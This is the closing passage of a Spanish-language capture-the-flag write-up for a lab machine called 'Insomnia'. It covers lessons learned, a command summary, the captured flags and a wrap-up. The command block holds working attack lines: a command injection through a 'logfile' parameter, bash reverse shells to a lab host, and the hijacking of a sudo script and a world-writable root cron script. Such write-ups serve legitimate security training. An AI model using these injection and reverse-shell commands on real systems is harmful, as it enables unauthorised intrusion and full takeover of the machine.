- Descubrimiento de `start.sh` escribible y ejecutable como `julia` vía sudo
- Escalada a `julia`
- Lectura de `.bash_history`
- Detección de cron vulnerable
- Modificación de `/var/cron/check.sh`
- Reverse shell como `root`

---

## 27. Conceptos importantes aprendidos en esta máquina

### 27.1. Puente de red entre hipervisores distintos

Cuando usas dos hipervisores diferentes y quieres que las VMs se vean entre sí, una solución práctica es poner ambas en **modo puente** contra el mismo adaptador físico.

### 27.2. El OUI de una MAC da contexto útil

Identificar `08:00:27` como VirtualBox te permitió encontrar rápidamente la IP de la víctima dentro de una red con muchos dispositivos.

### 27.3. El frontend no es la seguridad

La aplicación tenía controles en JavaScript, pero el backend seguía siendo accesible directamente. Esto es básico en pentesting web:

> la interfaz no manda; manda el servidor.

### 27.4. Un parámetro que “da error” puede seguir siendo oro

Que `logfile=/etc/passwd` devolviera “no permitido” no significaba que el parámetro no sirviera. Significaba que el backend sí lo estaba procesando.

### 27.5. Un simple `;` puede romper el modelo de seguridad entero

Cuando una aplicación concatena datos de usuario en comandos del sistema, `;`, `&&`, `|` y similares pueden separar o encadenar comandos, convirtiendo una lectura prevista en una ejecución arbitraria.

### 27.6. Los permisos 777 en scripts son una barbaridad

Un script de root escribible por cualquiera casi siempre es una invitación a la escalada si se ejecuta desde cron, systemd o sudo.

### 27.7. `.bash_history` ahorra muchísimo tiempo

Leer historial no es un “truco”. Es una técnica real de post-explotación que muchas veces revela directamente cómo llegar al siguiente nivel de privilegio.

### 27.8. Cron mal configurado es una mina

Si root ejecuta algo periódicamente y tú puedes escribirlo, el sistema literalmente va a ejecutar tu código como root por ti.

---

## 28. Comandos clave usados en la resolución

```bash
sudo nmap -n -sn 192.168.1.42/24
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.1.43

curl -s 'http://192.168.1.43:8080/process.php' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'function=getState'
curl -s 'http://192.168.1.43:8080/process.php' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'function=update' --data-urlencode 'state=0' | jq
curl -s 'http://192.168.1.43:8080/process.php' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'function=send' --data-urlencode 'nickname=curl' --data-urlencode 'message=Message sent from curl' | jq

gobuster dir -u http://192.168.1.43:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt -x php,txt,html --exclude-length 2899

ffuf -u 'http://192.168.1.43:8080/administration.php?FUZZ=test' -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -fs 65

curl 'http://192.168.1.43:8080/administration.php?logfile=test;whoami'

penelope -p 5555
curl -G 'http://192.168.1.43:8080/administration.php' --data-urlencode 'logfile=test;bash -c "bash -i >& /dev/tcp/192.168.1.42/5555 0>&1"'

sudo -l
echo '/bin/bash' >> /var/www/html/start.sh
sudo -u julia /bin/bash /var/www/html/start.sh

cat ~/.bash_history
cat /etc/crontab
ls -la /var/cron/check.sh

penelope -p 8888
echo "bash -c 'bash -i >& /dev/tcp/192.168.1.42/8888 0>&1'" > /var/cron/check.sh
```

---

## 29. Flags obtenidas

### User flag

```text
[c2e285cb33cecdbeb83d2189e983a8c0]
```

### Root flag

```text
[c84baebe0faa2fcdc2f1a4a9f6e2fbfc]
```

---

## 30. Cierre

Insomnia es una máquina muy buena para practicar una cadena clásica y muy educativa:

- reconocimiento de red en entorno virtual mixto,
- enumeración web,
- diferenciación entre frontend y backend,
- explotación de command injection,
- obtención de shell,
- abuso de `sudo` sobre script modificable,
- análisis de historial de bash,
- y escalada final mediante cron escribible por cualquiera.

Lo más valioso no es solo “sacar la máquina”, sino interiorizar la forma de pensar:

1. Identifica la superficie real.
2. Separa interfaz de lógica backend.
3. Confirma comportamiento con pruebas mínimas.
4. Cuando tengas shell, enumera con orden.
5. Fíjate en permisos raros, scripts y automatismos.
6. Lee historial, cron, sudo y ficheros de configuración antes de lanzarte a ciegas.

Esa disciplina es la que luego marca la diferencia en máquinas más complejas.
